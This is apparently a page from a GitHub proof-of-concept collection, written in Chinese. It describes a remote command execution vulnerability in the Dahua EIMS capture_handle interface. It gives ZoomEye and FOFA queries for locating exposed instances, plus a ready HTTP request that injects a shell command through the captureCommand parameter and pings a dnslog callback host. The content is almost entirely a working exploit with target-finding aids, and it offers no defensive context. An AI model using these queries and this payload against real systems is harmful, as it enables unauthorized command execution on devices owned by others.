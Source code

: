 ## 大华EIMS-capture_handle接口远程命令执行漏洞

## Zoomeye
```
 app:"大华 EIMS"
```

## fofa
```
"<title>eims</title>"
```


## poc
```
GET /config/asst/system_setPassWordValidate.action/capture_handle.action?captureFlag=true&captureCommand=ping%20xxx.dnslog.cn%20index.pcap HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Host: :9080
```

![63e62605aa1608f45153df0fd67b3632](../../images/f46556c9-dea7-4e50-9199-29229d977d2f.png)

![c5f4eb4662d85c100e7e6dc67621a6e8](../../images/8a08fbe3-57cc-4d99-a202-8fa23ad69779.png)
